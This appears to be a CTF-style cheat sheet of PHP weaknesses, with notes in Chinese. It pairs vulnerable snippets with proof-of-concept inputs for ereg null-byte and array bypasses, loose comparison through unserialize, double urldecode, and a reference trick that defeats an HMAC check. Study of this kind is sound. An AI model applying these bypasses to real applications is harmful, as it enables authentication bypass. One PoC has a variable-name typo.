 # php match

## ereg

> int ereg() 返回整数类型

* example

'''php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
    
'''

* poc 1

'''
url: ...?password=1e9%00*-*
'''
此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

'''
url: ...?password[]=s
''' 

**传入数组**
ereg 返回** NULL** ，NULL !== FALSE is true
strpos 处理数组，也返回 ** NULL **
strlen 处理数组，同样返回 **NULL**

**比较**
null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

’‘’php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

## urldecode

> string urldecode() 返回字符串类型 

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用
$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

'''php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
'''
## reference

* example

'''php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
    $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))    // hint auth is array
    return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
    return false;
'''

* poc

'''php
$a = array("username" => "dragon", "password" => true, "hmac_t" => "0"); 
$a["hmac"] = &$a["hmac_t"]; // key point ****************
$a["hmac_t"]=1; 
echo $a["hmac"]."\n";
echo urlencode(serialize($a)) . "\n";
'''

1.**PHP 是可以直接取 Reference **
则 if !== 的 strict comparison 就 always true 了...因为都是一个** Object **
2.cookie 提交 auth 为 urlencode(serialize($a)) 或 serialize($a) 均可 